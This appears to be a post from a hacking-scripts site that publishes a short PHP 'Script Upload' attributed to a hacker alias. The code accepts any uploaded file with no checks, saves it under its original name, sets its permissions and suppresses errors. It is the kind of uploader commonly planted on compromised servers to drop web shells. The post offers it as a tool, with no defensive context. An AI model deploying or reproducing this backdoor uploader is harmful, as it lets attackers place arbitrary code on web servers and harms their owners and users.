 ```yaml
---
id: 205
title: Script Upload By QtRoNiX HaCkEr
author: admin
layout: post
guid: http://hackingscripts.com/?p=205
permalink: /script-upload-by-qtronix-hacker/
categories:
  - PHP
tags:
  - PHP
  - uploader
---
```

A simple uploader script by QtRoNiX HaCkEr.


### Script Upload By QtRoNiX HaCkEr Source Code

{% highlight php linenos %}<?php
echo '<center><font color="Red" size="4">';
/// Script Upload By QtRoNiX HaCkEr \\\
if(isset($_POST['Submit'])){
	$filedir = ""; 
	$maxfile = '2000000';
	$mode = '0644';
	$userfile_name = $_FILES['image']['name'];
	$userfile_tmp = $_FILES['image']['tmp_name'];
	if(isset($_FILES['image']['name'])) {
		$qx = $filedir.$userfile_name;
		@move_uploaded_file($userfile_tmp, $qx);
		@chmod ($qx, octdec($mode));
echo"<center><b>Done ==> $userfile_name</b></center>";
}
}
else{
echo'<form method="POST" action="#" enctype="multipart/form-data"><input type="file" name="image"><br><input type="Submit" name="Submit" value="Upload"></form>';
}
echo '</center></font>';
?>
{% endhighlight %}